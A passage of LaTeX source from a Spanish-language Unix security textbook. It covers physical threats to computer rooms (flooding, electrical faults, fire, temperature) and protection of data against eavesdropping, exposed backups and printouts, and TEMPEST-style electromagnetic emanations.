backups} en el punto \ref{backups}, de momento podemos adelantar que se han
de almacenar lo m\'as alejados posible de la estructura met\'alica de los 
edificios. Un rayo en el propio edificio, o en un lugar cercano, puede inducir
un campo electromagn\'etico lo suficientemente grande como para borrar de golpe
todas nuestras cintas o discos, lo que a\~nade a los problemas por da\~nos en
el {\it hardware} la p\'erdida de toda la informaci\'on de nuestros sistemas.
\subsubsection{Inundaciones y humedad}
Cierto grado de humedad es necesario para un correcto funcionamiento de nuestras
m\'aquinas: en ambientes extremadamente secos el nivel de electricidad 
est\'atica es elevado, lo que, como veremos m\'as tarde, puede transformar un
peque\~no contacto entre una persona y un circuito, o entre diferentes 
componentes de una m\'aquina, en un da\~no irreparable al {\it hardware} y a
la informaci\'on. No obstante, niveles de humedad elevados son perjudiciales
para los equipos porque pueden producir condensaci\'on en los circuitos 
integrados, lo que origina cortocircuitos que evidentemente tienen efectos 
negativos sobre cualquier elemento electr\'onico de una m\'aquina.\\
\\Controlar el nivel de humedad en los entornos habituales es algo
innecesario, ya que por norma nadie ubica estaciones en los lugares m\'as
h\'umedos o que presenten situaciones extremas; no obstante, ciertos equipos
son especialmente sensibles a la humedad, por lo que es conveniente consultar
los manuales de todos aquellos de los que tengamos dudas. Quiz\'as sea 
necesario utilizar alarmas que se activan al detectar condiciones de muy poca
o demasiada humedad, especialmente en sistemas de alta disponibilidad o de 
altas prestaciones, donde un fallo en un componente puede ser crucial.\\
\\Cuando ya no se habla de una humedad m\'as o menos elevada sino de completas
inundaciones, los problemas generados son mucho mayores. Casi cualquier medio
(una m\'aquina, una cinta, un {\it router}\ldots) que entre en contacto con
el agua queda autom\'aticamente inutilizado, bien por el propio l\'{\i}quido
o bien por los cortocircuitos que genera en los sistemas electr\'onicos.\\
\\Evidentemente, contra las inundaciones las medidas m\'as efectivas son las de
prevenci\'on (frente a las de detecci\'on); podemos utilizar detectores de 
agua en los suelos o falsos suelos de las salas de operaciones, y apagar 
autom\'aticamente los sistemas en caso de que se activen. Tras apagar los 
sistemas podemos tener tambi\'en instalado un sistema autom\'atico que corte
la corriente: algo muy com\'un es intentar sacar los equipos -- previamente 
apagados o no -- de una sala que se est\'a empezando a inundar; esto, que a
primera vista parece lo l\'ogico, es el mayor error que se puede cometer si no
hemos desconectado completamente el sistema el\'ectrico, ya que la mezcla de
corriente y agua puede causar incluso la muerte a quien intente salvar equipos.
Por muy caro que sea el {\it hardware} o por muy valiosa que sea la 
informaci\'on a proteger, nunca ser\'an magnitudes comparables a lo que supone
la p\'erdida de vidas humanas. Otro error com\'un relacionado con los detectores
de agua es situar a los mismos a un nivel superior que a los propios equipos a
salvaguardar (<incluso en el techo, junto a los detectores de humo!); 
evidentemente, cuando en estos casos el agua llega al detector poco se puede 
hacer ya por las m\'aquinas o la informaci\'on que contienen.\\
\\Medidas de protecci\'on menos sofisticadas pueden ser la instalaci\'on de
un falso suelo por encima del suelo real, o simplemente tener la
precauci\'on de situar a los equipos con una cierta elevaci\'on respecto al
suelo, pero sin llegar a situarlos muy altos por los problemas que ya hemos 
comentado al hablar de terremotos y vibraciones.
\subsection{Desastres del entorno}
\subsubsection{Electricidad}
Quiz\'as los problemas derivados del entorno de trabajo m\'as frecuentes son
los relacionados con el sistema el\'ectrico que alimenta nuestros equipos; 
cortocircuitos, picos de tensi\'on, cortes de flujo\ldots a diario amenazan
la integridad tanto de nuestro {\it hardware} como de los datos que almacena
o que circulan por \'el.\\
\\El problema menos com\'un en las instalaciones modernas son las subidas 
de tensi\'on, conocidas como `picos' porque generalmente duran muy poco: durante
unas fracciones de segundo el voltaje que recibe un equipo sube hasta sobrepasar
el l\'{\i}mite aceptable que dicho equipo soporta. Lo normal es 
que estos picos apenas afecten al {\it hardware} o a los datos gracias a que en
la mayor\'{\i}a de equipos hay instalados fusibles, elementos que se funden ante
una subida de tensi\'on y dejan de conducir la corriente, provocando que la 
m\'aquina permanezca apagada. Disponga o no de fusibles el equipo a proteger
(lo normal es que s\'{\i} los tenga) una medida efectiva y barata es utilizar
tomas de tierra para asegurar a\'un m\'as la integridad; estos mecanismos 
evitan los problemas de sobretensi\'on desviando el exceso de corriente hacia
el suelo de una sala o edificio, o simplemente hacia cualquier lugar con voltaje
nulo. Una toma de tierra sencilla puede consistir en un buen conductor conectado
a los chasis de los equipos a proteger y a una barra maciza, tambi\'en 
conductora, que se introduce lo m\'as posible en el suelo; el coste de la 
instalaci\'on es peque\~no, especialmente si lo comparamos con las p\'erdidas
que supondr\'{\i}a un incendio que afecte a todos o a una parte de nuestros
equipos.\\
\\Incluso teniendo un sistema protegido con los m\'etodos anteriores, si la
subida de tensi\'on dura demasiado, o si es demasiado r\'apida, podemos sufrir
da\~nos en los equipos; existen acondicionadores de tensi\'on comerciales que
protegen de los picos hasta en los casos m\'as extremos, y que tambi\'en se
utilizan como filtros para ruido el\'ectrico. Aunque en la mayor\'{\i}a de
situaciones no es necesario su uso, si nuestra organizaci\'on tiene problemas
por el voltaje excesivo quiz\'as sea conveniente instalar alguno de estos
aparatos.\\
\\Un problema que los estabilizadores de tensi\'on o las tomas de tierra no
pueden solucionar es justamente el contrario a las subidas de tensi\'on: las
bajadas, situaciones en las que la corriente desciende por debajo del voltaje
necesario para un correcto funcionamiento del sistema, pero sin llegar a ser
lo suficientemente bajo para que la m\'aquina se apague (\cite{kn:san90}). En
estas situaciones la m\'aquina se va a comportar de forma extra\~na e 
incorrecta, por ejemplo no aceptando algunas instrucciones, no completando 
escrituras en disco o memoria, etc. Es una situaci\'on similar a la de una 
bombilla que pierde intensidad moment\'aneamente por falta de corriente, pero
trasladada a un sistema que en ese peque\~no intervalo ejecuta miles o millones
de instrucciones y transferencias de datos.\\
\\Otro problema, much\'{\i}simo m\'as habituales que los anteriores en redes
el\'ectricas modernas, son los cortes
en el fluido el\'ectrico que llega a nuestros equipos. Aunque un simple corte
de corriente no suele afectar al {\it hardware}, lo m\'as peligroso (y que
sucede en muchas ocasiones) son las idas y venidas r\'apidas de la corriente;
en esta situaci\'on, aparte de perder datos, nuestras m\'aquinas pueden sufrir
da\~nos.\\
\\La forma m\'as efectiva de proteger nuestros equipos contra estos problemas
de la corriente el\'ectrica es utilizar una SAI (Servicio de Alimentaci\'on
Ininterrumpido) conectada al elemento que queremos proteger. Estos dispositivos
mantienen un flujo de corriente correcto y estable de corriente, protegiendo 
as\'{\i} los equipos de subidas, cortes y bajadas de tensi\'on; tienen capacidad
para seguir alimentando las m\'aquinas incluso en caso de que no reciban 
electricidad (evidentemente no las alimentan de forma indefinida, sino durante
un cierto tiempo -- el necesario para detener el sistema de forma ordenada). 
Por tanto, en caso de fallo de la corriente el SAI informar\'a a la m\'aquina
Unix, que a trav\'es de un programa como {\tt /sbin/powerd} recibe la 
informaci\'on y decide cuanto tiempo de corriente le queda para poder pararse
correctamente; si de nuevo vuelve el flujo la SAI vuelve a informar de este
evento y el sistema desprograma su parada. As\'{\i} de simple: por poco m\'as
de diez mil pesetas podemos obtener una SAI peque\~na, m\'as que suficiente para
muchos servidores, que nos va a librar de la mayor\'{\i}a de los problemas
relacionados con la red el\'ectrica.\\
\\Un \'ultimo problema contra el que ni siquiera las SAIs nos protegen es la 
corriente est\'atica, un fen\'omeno extra\~no del que la mayor\'{\i}a de gente
piensa que no afecta a los equipos, s\'olo a otras personas. Nada m\'as lejos
de la realidad: simplemente tocar con la mano la parte met\'alica de teclado o 
un conductor de una placa puede destruir un equipo completamente. Se trata de
corriente de muy poca intensidad pero un alt\'{\i}simo voltaje, por lo que 
aunque la persona no sufra ning\'un da\~no -- s\'olo un peque\~no calambrazo --
el ordenador sufre una descarga que puede ser suficiente para destrozar todos
sus componentes, desde el disco duro hasta la memoria RAM. Contra el problema
de la corriente est\'atica existen muchas y muy baratas soluciones: {\it spray}
antiest\'atico, ionizadores antiest\'aticos\ldots No obstante en la mayor\'{\i}a
de situaciones s\'olo hace falta un poco de sentido com\'un del usuario para
evitar accidentes: no tocar directamente ninguna parte met\'alica, protegerse
si debe hacer operaciones con el {\it hardware}, no mantener el entorno 
excesivamente seco\ldots
\subsubsection{Ruido el\'ectrico}
Dentro del apartado anterior podr\'{\i}amos haber hablado del ruido el\'ectrico
como un problema m\'as relacionado con la electricidad; sin embargo este 
problema no es una incidencia directa de la corriente en nuestros equipos, sino
una incidencia relacionada con la corriente de otras m\'aquinas que pueden 
afectar al funcionamiento de la nuestra. El ruido el\'ectrico suele ser 
generado por motores o por maquinaria pesada, pero tambi\'en puede serlo por
otros ordenadores o por multitud de aparatos, especialmente muchos de los 
instalados en los laboratorios de
organizaciones de I+D, y se transmite a trav\'es del espacio o de l\'{\i}neas
el\'ectricas cercanas a nuestra instalaci\'on.\\
\\Para prevenir los problemas que el ruido el\'ectrico puede causar en nuestros
equipos lo m\'as barato es intentar no situar {\it hardware} cercano a la
maquinaria que puede causar dicho ruido; si no tenemos m\'as remedio que 
hacerlo, podemos instalar filtros en las l\'{\i}neas de alimentaci\'on que 
llegan hasta los ordenadores. Tambi\'en es recomendable mantener alejados de
los equipos dispositivos emisores de ondas, como tel\'efonos m\'oviles, 
transmisores de radio o {\it walkie-talkies}; estos elementos puede incluso
da\~nar permanentemente a nuestro {\it hardware} si tienen la suficiente 
potencia de transmisi\'on, o influir directamente en elementos que pueden 
da\~narlo como detectores de incendios o cierto tipo de alarmas.
\subsubsection{Incendios y humo}
Una causa casi siempre relacionada con la electricidad son los incendios, y
con ellos el humo; aunque la causa de un fuego puede ser un desastre natural,
lo habitual en muchos entornos es que el mayor peligro de incendio provenga de
problemas el\'ectricos por la sobrecarga de la red debido al gran n\'umero de
aparatos conectados al tendido. Un simple cortocircuito o un equipo que se
calienta demasiado pueden convertirse en la causa directa de un incendio en
el edificio, o al menos en la planta, donde se encuentran invertidos millones
de pesetas en equipamiento.\\
\\Un m\'etodo efectivo contra los incendios son los extintores situados en el
techo, que se activan autom\'aticamente al detectar humo o calor. Algunos de
ellos, los m\'as antiguos, utilizaban agua para apagar las llamas, lo que 
provocaba que el {\it hardware} no llegara a sufrir los efectos del fuego si
los extintores se activaban correctamente, pero que quedara destrozado por el
agua expulsada. Visto este problema, a mitad de los ochenta se comenzaron a
utilizar extintores de hal\'on; este compuesto no conduce electricidad ni 
deja residuos, por lo que resulta ideal para no da\~nar los equipos. Sin 
embargo, tambi\'en el hal\'on presentaba problemas: por un lado, resulta 
excesivamente contaminante para la atm\'osfera, y por otro puede axfisiar a las
personas a la vez que acaba con el fuego. Por eso se han sustituido los 
extintores de hal\'on (aunque se siguen utilizando mucho hoy en d\'{\i}a) por
extintores de di\'oxido de carbono, menos contaminante y menos perjudicial. De
cualquier forma, al igual que el hal\'on el di\'oxido de carbono no es 
precisamente sano para los humanos, por lo que antes de activar el extintor es
conveniente que todo el mundo abandone la sala; si se trata de sistemas de 
activaci\'on autom\'atica suelen avisar antes de expulsar su compuesto mediante
un pitido.\\
\\Aparte del fuego y el calor generado, en un incendio existe un tercer 
elemento perjudicial para los equipos: el humo, un potente abrasivo que ataca
especialmente los discos magn\'eticos y \'opticos. Quiz\'as ante un incendio el
da\~no provocado por el humo sea insignificante en comparaci\'on con el causado
por el fuego y el calor, pero hemos de recordar que
puede existir humo sin necesidad de que haya un fuego: por ejemplo, en salas
de operaciones donde se fuma. Aunque muchos no apliquemos esta regla y fumemos
demasiado -- siempre es demasiado -- delante de nuestros equipos, ser\'{\i}a
conveniente no permitir esto; aparte de la suciedad generada que se deposita
en todas las partes de un ordenador, desde el teclado hasta el monitor, 
generalmente todos tenemos el cenicero cerca de los equipos, por lo que el
humo afecta directamente a todos los componentes; incluso al ser algo m\'as
habitual que un incendio, se puede considerar m\'as perjudicial -- para los
equipos y las personas -- el humo del tabaco que el de un fuego.\\
\\En muchos manuales de seguridad se insta a los usuarios, administradores, o
al personal en general a intentar controlar el fuego y salvar el equipamiento;
esto tiene, como casi todo, sus pros y sus contras. Evidentemente, algo
l\'ogico cuando estamos ante un incendio de peque\~nas dimensiones es intentar
utilizar un extintor para apagarlo, de forma que lo que podr\'{\i}a haber sido
una cat\'astrofe sea un simple susto o un peque\~no accidente. Sin embargo, 
cuando las dimensiones de las llamas son considerables lo \'ultimo que debemos
hacer es intentar controlar el fuego nosotros mismos, arriesgando vidas para
salvar {\it hardware}; como suced\'{\i}a en el caso de inundaciones, no 
importa el precio de nuestros equipos o el valor de nuestra informaci\'on:
nunca ser\'an tan importantes como una vida humana. Lo m\'as recomendable en
estos casos es evacuar el lugar del incendio y dejar su control en manos de
personal especializado.
\subsubsection{Temperaturas extremas}
No hace falta ser un genio para comprender que las temperaturas extremas, ya
sea un calor excesivo o un frio intenso, perjudican gravemente a todos los
equipos. Es recomendable que los equipos operen entre 10 y 32 grados Celsius
(\cite{kn:spa96}), aunque peque\~nas variaciones en este rango tampoco han de
influir en la mayor\'{\i}a de sistemas.\\
\\Para controlar la temperatura ambiente en el entorno de operaciones nada
mejor que un acondicionador de aire, aparato que tambi\'en influir\'a 
positivamente en el rendimiento de los usuarios (las personas tambi\'en tenemos
rangos de temperaturas dentro de los cuales trabajamos m\'as c\'omodamente).
Otra condici\'on b\'asica para el correcto funcionamiento de cualquier equipo 
que \'este se encuentre correctamente ventilado, sin elementos que obstruyan los
ventiladores de la CPU. La organizaci\'on f\'{\i}sica del computador tambi\'en
es decisiva para evitar sobrecalentamientos: si los discos duros, elementos
que pueden alcanzar temperaturas considerables, se encuentran excesivamente 
cerca de la memoria RAM, es muy probable que los m\'odulos acaben 
quem\'andose.
\section{Protecci\'on de los datos} 
La seguridad f\'{\i}sica tambi\'en implica una protecci\'on a la informaci\'on
de nuestro sistema, tanto a la que est\'a almacenada en \'el como a la que
se transmite entre diferentes equipos. Aunque los apartados comentados en la
anterior secci\'on son aplicables a la protecci\'on f\'{\i}sica de los datos
(ya que no olvidemos que si protegemos el {\it hardware} tambi\'en protegemos
la informaci\'on que se almacena o se transmite por \'el), hay ciertos aspectos
a tener en cuenta a la hora de dise\~nar una pol\'{\i}tica de seguridad 
f\'{\i}sica que afectan principalmente, aparte de a los elementos f\'{\i}sicos,
a los datos de nuestra organizaci\'on; existen ataques cuyo objetivo no es
destruir el medio f\'{\i}sico de nuestro sistema, sino simplemente conseguir la
informaci\'on almacenada en dicho medio.
\subsection{{\it Eavesdropping}}
\label{eavesdropping}
La interceptaci\'on o {\it eavesdropping}, tambi\'en conocida por {\it passive
wiretapping} (\cite{kn:cesid}) es un proceso mediante el cual un agente capta
informaci\'on -- en claro o cifrada -- que no le iba dirigida; esta
captaci\'on puede realizarse por much\'{\i}simos medios (por ejemplo, 
capturando las radiaciones electromagn\'eticas, como veremos luego). Aunque es
en principio un ataque completamente pasivo, lo m\'as
peligroso del {\it eavesdropping} es que es muy dif\'{\i}cil de detectar
mientras que se produce, de forma que un atacante puede capturar informaci\'on
privilegiada y claves para acceder a m\'as informaci\'on sin que nadie se de
cuenta hasta que dicho atacante utiliza la informaci\'on capturada, 
convirtiendo el ataque en activo.\\
\\Un medio de interceptaci\'on bastante habitual es el {\it sniffing}, 
consistente en capturar tramas que circulan por la red mediante un programa 
ejecut\'andose en una m\'aquina conectada a ella o bien mediante un dispositivo
que se engancha directamente el cableado\footnote{En este caso tambi\'en se 
suele llamar a esta actividad {\it wiretapping}.}. Estos dispositivos, 
denominados {\it 
sniffers} de alta impedancia, se conectan en paralelo con el cable de forma que
la impedancia total del cable y el aparato es similar a la del cable solo, lo
que hace dif\'{\i}cil su detecci\'on. Contra estos ataques existen diversas
soluciones; la m\'as barata a nivel f\'{\i}sico es no permitir la existencia de 
segmentos de red de f\'acil acceso, lugares id\'oneos para que un atacante 
conecte uno de estos aparatos y capture todo nuestro tr\'afico. No obstante
esto resulta dif\'{\i}cil en redes ya instaladas, donde no podemos modificar
su arquitectura; en estos existe una soluci\'on generalmente gratuita pero que
no tiene mucho que ver con el nivel f\'{\i}sico: el uso de aplicaciones de
cifrado para realizar las comunicaciones o el almacenamiento de la informaci\'on
(hablaremos m\'as adelante de algunas de ellas). Tampoco debemos descuidar las
tomas de red libres, donde un intruso con un portatil puede conectarse para
capturar tr\'afico; es recomendable analizar regularmente nuestra red para
verificar que todas las m\'aquinas activas est\'an autorizadas.\\
\\Como soluciones igualmente efectivas contra la interceptaci\'on a nivel
f\'{\i}sico podemos citar
el uso de dispositivos de cifra (no simples programas, sino {\it hardware}),
generalmente {\it chips} que implementan algoritmos como {\sc des}; esta 
soluci\'on es muy poco utilizada en entornos de I+D, ya que es much\'{\i}simo 
m\'as cara que utilizar implementaciones {\it software} de tales algoritmos y
en muchas ocasiones la \'unica diferencia entre los programas y los dispositivos
de cifra es la velocidad. Tambi\'en se puede utilizar, como soluci\'on m\'as
cara, el cableado en vac\'{\i}o para evitar la interceptaci\'on de datos que
viajan por la red: la idea es situar los cables en tubos donde artificialmente
se crea el vac\'{\i}o o se inyecta aire a presi\'on; si un atacante intenta
`pinchar' el cable para interceptar los datos, rompe el vac\'{\i}o o el nivel
de presi\'on y el ataque es detectado inmediatamente. Como decimos, esta 
soluci\'on es enormemente cara y s\'olamente se aplica en redes de 
per\'{\i}metro reducido para entornos de alta seguridad.\\
\\Antes de finalizar este punto debemos recordar un peligro que
muchas veces se ignora: el de la interceptaci\'on de datos emitidos en forma de
sonido o simple ruido en nuestro entorno de operaciones. Imaginemos una 
situaci\'on en la que los responsables de la seguridad de nuestra organizaci\'on
se reunen para discutir nuevos mecanismos de protecci\'on; todo lo que en esa
reuni\'on se diga puede ser capturado por multitud de m\'etodos, algunos de los
cuales son tan simples que ni siquiera se contemplan en los planes de seguridad.
Por ejemplo, una simple tarjeta de sonido instalada en un PC situado en la sala
de reuniones puede transmitir a un atacante todo lo que se diga en esa 
reuni\'on; mucho m\'as simple y sencillo: un tel\'efono mal 
colgado -- intencionada o inintencionadamente -- tambi\'en puede transmitir 
informaci\'on muy \'util para un potencial enemigo. Para evitar estos problemas
existen numerosos m\'etodos: por ejemplo, en el caso de los tel\'efonos fijos
suele ser suficiente un poco de atenci\'on y sentido com\'un, ya que basta con
comprobar que est\'an bien colgados\ldots o incluso desconectados de la red
telef\'onica. El caso de los m\'oviles suele ser algo m\'as complejo de 
controlar, ya que su peque\~no tama\~no permite camuflarlos f\'acilmente; no 
obstante, podemos instalar en la sala de reuniones un sistema de aislamiento 
para bloquear el uso de estos tel\'efonos: se trata de sistemas que ya se 
utilizan en ciertos entornos (por ejemplo en conciertos musicales) para evitar 
las molestias de un m\'ovil sonando, y que trabajan bloqueando cualquier 
transmisi\'on en los rangos de frecuencias en los que trabajan los diferentes
operadores telef\'onicos. Otra medida preventiva (ya no para voz, sino para 
prevenir la fuga de datos v\'{\i}a el ruido ambiente) muy \'util -- y no muy 
cara -- puede ser sustituir todos los tel\'efonos fijos de disco por 
tel\'efonos de teclado, ya que el ruido de un disco al girar puede permitir a 
un pirata deducir el n\'umero de tel\'efono marcado desde ese aparato.
\subsection{{\it Backups}}
\label{backups}
En este apartado no vamos a hablar de las normas para establecer una 
pol\'{\i}tica de realizaci\'on de copias de seguridad correcta, ni tampoco de
los mecanismos necesarios para implementarla o las precauciones que hay que 
tomar para que todo funcione correctamente; el tema que vamos a tratar en este
apartado es la protecci\'on f\'{\i}sica de la informaci\'on almacenada en {\it 
backups}, esto es, de la protecci\'on de los diferentes medios donde residen
nuestras copias de seguridad. Hemos de tener siempre presente que si las copias 
contienen toda nuestra informaci\'on tenemos que protegerlas igual que 
protegemos nuestros sistemas.\\
\\Un error muy habitual es almacenar los dispositivos de {\it backup} en lugares
muy cercanos a la sala de operaciones, cuando no en la misma sala; esto, que
en principio puede parecer correcto (y c\'omodo si necesitamos restaurar unos
archivos) puede convertirse en un problema: imaginemos simplemente que se
produce un incendio de grandes dimensiones y todo el edificio queda reducido
a cenizas. En este caso extremo tendremos que unir al problema de perder todos
nuestros equipos -- que seguramente cubrir\'a el seguro, por lo que no se puede
considerar una cat\'astrofe -- el perder tambi\'en todos nuestros datos, tanto
los almacenados en los discos como los guardados en {\it backups} (esto
evidentemente no hay seguro que lo cubra). Como podemos ver, resulta 
recomendable guardar las copias de seguridad en una zona alejada de la sala de
operaciones, aunque en este caso descentralizemos la seguridad y tengamos que
proteger el lugar donde almacenamos los {\it backups} igual que protegemos la
propia sala o los equipos situados en ella, algo que en ocasiones puede
resultar caro.\\
\\Tambi\'en suele ser com\'un etiquetar las cintas donde hacemos copias de 
seguridad con abundante informaci\'on sobre su contenido (sistemas de ficheros
almacenados, d\'{\i}a y hora de la realizaci\'on, sistema al que 
corresponde\ldots); esto tiene una parte positiva y una negativa. Por un lado,
recuperar un fichero es r\'apido: s\'olo tenemos que ir leyendo las etiquetas
hasta encontrar la cinta adecuada. Sin embargo, si nos paramos a pensar, igual
que para un administrador es f\'acil encontrar el {\it backup} deseado tambi\'en
lo es para un intruso que consiga acceso a las cintas, por lo que si el acceso
a las mismas no est\'a bien restringido un atacante lo tiene f\'acil para 
sustraer una cinta con toda nuestra informaci\'on; no necesita saltarse nuestro
cortafuegos, conseguir una clave del sistema o chantajear a un operador: 
nosotros mismos le estamos poniendo en bandeja toda nuestros datos. No obstante,
ahora nos debemos plantear la duda habitual: {\it si no etiqueto las copias de 
seguridad,
>c\'omo puedo elegir la que debo restaurar en un momento dado?} Evidentemente,
se necesita cierta informaci\'on en cada cinta para poder clasificarlas, pero
esa informaci\'on {\bf nunca} debe ser algo que le facilite la tarea a un 
atacante; por ejemplo, se puede dise\~nar cierta codificaci\'on que s\'olo 
conozcan las personas responsables de las copias de seguridad, de forma que 
cada cinta vaya convenientemente etiquetada, pero sin conocer el c\'odigo sea
dif\'{\i}cil imaginar su contenido. Aunque en un caso extremo el atacante puede
llevarse todos nuestros {\it backups} para analizarlos uno a uno, siempre es
m\'as dif\'{\i}cil disimular una carretilla llena de cintas de 8mm que una
peque\~na unidad guardada en un bolsillo. Y si a\'un pensamos que alguien puede
sustraer todas las copias, simplemente tenemos que realizar {\it backups} 
cifrados\ldots y controlar m\'as el acceso al lugar donde las guardamos.
\subsection{Otros elementos}
En muchas ocasiones los responsables de seguridad de los sistemas tienen muy
presente que la informaci\'on a proteger se encuentra en los equipos, en las
copias de seguridad o circulando por la red (y por lo tanto toman medidas para
salvaguardar estos medios), pero olvidan que esa informaci\'on tambi\'en puede
encontrarse en lugares menos obvios, como listados de impresora, facturas
telef\'onicas o la propia documentaci\'on de una m\'aquina.\\
\\Imaginemos una situaci\'on muy t\'{\i}pica en los sistemas Unix: un usuario,
desde su terminal o el equipo de su despacho, imprime en el servidor un 
documento de cien p\'aginas, documento que ya de entrada ning\'un operador 
comprueba -- y quiz\'as no pueda comprobar, ya que se puede comprometer la
privacidad del usuario -- pero que puede contener, disimuladamente, una copia
de nuestro fichero de contrase\~nas. Cuando la impresi\'on finaliza, el
administrador lleva el documento fuera de la sala de operaciones, pone como 
portada una hoja con los datos del usuario en la m\'aquina ({\it login} 
perfectamente visible, nombre del fichero, hora en que se lanz\'o\ldots) y lo
deja, junto a los documentos que otros usuarios han imprimido -- y con los que
se ha seguido la misma pol\'{\i}tica -- en una estanter\'{\i}a perdida en un
pasillo, lugar al que cualquier persona puede acceder con total libertad y
llevarse la impresi\'on, leerla o simplemente curiosear las portadas de todos
los documentos. As\'{\i}, de repente, a nadie se le escapan bastante problemas
de seguridad derivados de esta pol\'{\i}tica: sin entrar en lo que un usuario
pueda imprimir -- que repetimos, quiz\'as no sea legal, o al menos \'etico,
curiosear --, cualquiera puede robar una copia de un proyecto o un 
examen\footnote{Evidentemente, si alguien imprime un examen de esta forma, no
tenemos un problema con nuestra pol\'{\i}tica sino con nuestros usuarios.}, 
obtener informaci\'on sobre nuestros sistemas de ficheros y las horas a las
que los usuarios suelen trabajar, o simplemente descubrir, simplemente pasando
por delante de la estanter\'{\i}a, diez o veinte nombres v\'alidos de usuario
en nuestras m\'aquinas; todas estas informaciones pueden ser de gran utilidad
para un atacante, que por si fuera poco no tiene que hacer nada para 
obtenerlas, simplemente darse un paseo por el lugar donde depositamos las
impresiones. Esto, que a muchos les puede parecer una exageraci\'on, no es ni
m\'as ni menos la pol\'{\i}tica que se sigue en muchas organizaciones hoy en
d\'{\i}a, e incluso en centros de proceso de datos, donde {\it a priori} ha de
haber una mayor concienciaci\'on por la seguridad inform\'atica.\\
\\Evidentemente, hay que tomar medidas contra estos problemas. En primer lugar,
las impresoras, {\it plotters}, faxes, teletipos, o cualquier dispositivo por
el que pueda salir informaci\'on de nuestro sistema ha de estar situado en un
lugar de acceso restringido; tambi\'en es conveniente que sea de acceso 
restringido el lugar donde los usuarios recogen los documentos que lanzan a 
estos dispositivos. Ser\'{\i}a conveniente que un usuario que recoge una copia
se acredite como alguien autorizado a hacerlo, aunque quiz\'as esto puede ser
imposible, o al menos muy dif\'{\i}cil, en grandes sistemas (imaginemos que 
en una m\'aquina con cinco mil usuarios obligamos a todo aqu\'el que va a 
recoger una impresi\'on a identificarse y comprobamos que la identificaci\'on
es correcta antes de darle su documento\ldots con toda seguridad 
necesitar\'{\i}amos una persona encargada exclusivamente de este trabajo), 
siempre es conveniente demostrar cierto grado de inter\'es por el destino de
lo que sale por nuestra impresora: sin llegar a realizar un control f\'erreo,
si un atacante sabe que el acceso a los documentos est\'a m\'{\i}nimamente
controlado se lo pensar\'a dos veces antes de intentar conseguir algo que otro
usuario ha imprimido.\\
\\Elementos que tambi\'en pueden ser aprovechados por un atacante para 
comprometer nuestra seguridad son todos aquellos que revelen informaci\'on de
nuestros sistemas o del personal que los utiliza, como ciertos manuales 
(proporcionan versiones de los sistemas operativos utilizados), facturas de 
tel\'efono del centro (pueden indicar los n\'umeros de nuestros m\'odems) o
agendas de operadores (revelan los tel\'efonos de varios usuarios, algo muy
provechoso para alguien que intente efectuar ingenier\'{\i}a social contra
ellos). Aunque es conveniente no destruir ni dejar a la vista de todo el mundo
esta informaci\'on, si queremos eliminarla no podemos limitarnos a arrojar
documentos a la papelera: en el cap\'{\i}tulo siguiente hablaremos del 
basureo, algo que aunque parezca sacado de pel\'{\i}culas de esp\'{\i}as 
realmente se utiliza contra todo tipo de entornos. Es
recomendable utilizar una trituradora de papel, dispositivo que dificulta
much\'{\i}simo la reconstrucci\'on y lectura de un documento destruido; por
poco dinero podemos conseguir uno de estos aparatos, que suele ser suficiente
para acabar con cantidades moderadas de papel.
\section{Radiaciones electromagn\'eticas}
Dentro del apartado \ref{eavesdropping} 
pod\'{\i}amos haber hablado del acceso no autorizado a los datos a trav\'es de
las radiaciones que el {\it hardware} emite; sin embargo, este es un tema que ha
cobrado especial importancia (especialmente en organismos militares) a 
ra\'{\i}z del programa {\sc tempest}, un t\'ermino ({\it Transient 
ElectroMagnetic Pulse Emanation STandard}) que identifica una serie de 
est\'andares del gobierno estadounidense para limitar las radiaciones 
el\'ectricas y electromagn\'eticas del equipamiento electr\'onico, desde 
estaciones de trabajo hasta cables de red, pasando por terminales, {\it 
mainframes}, ratones\ldots\\
\\La idea es sencilla: la corriente que circula por un conductor provoca un
campo electromagn\'etico alrededor del conductor, campo que var\'{\i}a de la
misma forma que lo hace la intensidad de la corriente. Si situamos otro 
conductor en ese campo, sobre \'el se induce una se\~nal que tambi\'en 
var\'{\i}a proporcionalmente a la intensidad de la corriente inicial; de esta
forma, cualquier dispositivo electr\'onico (no s\'olo el inform\'atico) emite 
cont\'{\i}nuamente radiaciones a trav\'es del aire o de conductores, 
radiaciones que con el equipo adecuado se pueden captar y reproducir 
remotamente con la consiguiente amenaza a la seguridad que esto implica. 
Conscientes de este problema -- obviamente las emisiones de una batidora no son
peligrosas para la seguridad, pero s\'{\i} que lo pueden ser las de un 
dipositivo de cifrado o las de un teclado desde el que se env\'{\i}en mensajes
confidenciales -- en la d\'ecada de los 50 el gobierno de Estados Unidos 
introdujo una serie de est\'andares para reducir estas radiaciones en los 
equipos destinados a almacenar, procesar o transmitir informaci\'on que 
pudiera comprometer la seguridad nacional. De esta forma, el {\it hardware} 
certificado {\sc tempest} se suele usar con la informaci\'on clasificada y 
confidencial de algunos sistemas gubernamentales para asegurar que el {\it 
eavesdropping} electromagn\'etico no va a afectar a privacidad de los datos.\\
\\Casi medio siglo despu\'es de las primeras investigaciones sobre emanaciones
de este tipo, casi todos los paises desarrollados y organizaciones militares
internacionales tienen programas similares a {\sc tempest} con el mismo fin:
proteger informaci\'on confidencial. Para los gobiernos, esto es algo reservado 
a informaciones militares, nunca a organizaciones `normales' y mucho menos a 
particulares (la NRO, {\it National Reconnaissance Office}, elimin\'o en 1992
los est\'andares {\sc tempest} para dispositivos de uso dom\'estico); sin 
embargo, y como ejemplo -- algo extremo quiz\'as -- de hasta que punto 
un potencial atacante puede llegar a comprometer la informaci\'on que circula 
por una red o que se lee en un monitor, vamos a dar aqu\'{\i} unas nociones 
generales sobre el problema de las radiaciones electromagn\'eticas.\\
\\Existen numerosos tipos de se\~nales electromagn\'eticas; sin duda las m\'as 
peligrosas son las de video y las de transmisi\'on serie, ya que por sus 
caracter\'{\i}sticas no es dif\'{\i}cil interceptarlas con el equipamiento 
adecuado (\cite{kn:eck85} y \cite{kn:smu90}). Otras se\~nales que {\it a 
priori} tambi\'en son f\'aciles de captar, como las de enlaces por 
radiofrecuencia o las de redes basadas en infrarrojos, no presentan tantos 
problemas ya que desde un principio los dise\~nadores fueron conscientes de la 
facilidad de captaci\'on y las amenazas a la seguridad que una captura implica;
esta inseguridad tan palpable provoc\'o la r\'apida aparici\'on de mecanismos 
implementados para dificultar el trabajo de un atacante, como el salto en 
frecuencias o el espectro disperso (\cite{kn:koh95}), o simplemente el uso de 
protocolos cifrados. Este tipo de emisiones quedan fuera del alcance de {\sc 
tempest}, pero son cubiertas por otro est\'andar denominado {\sc nonstop}, 
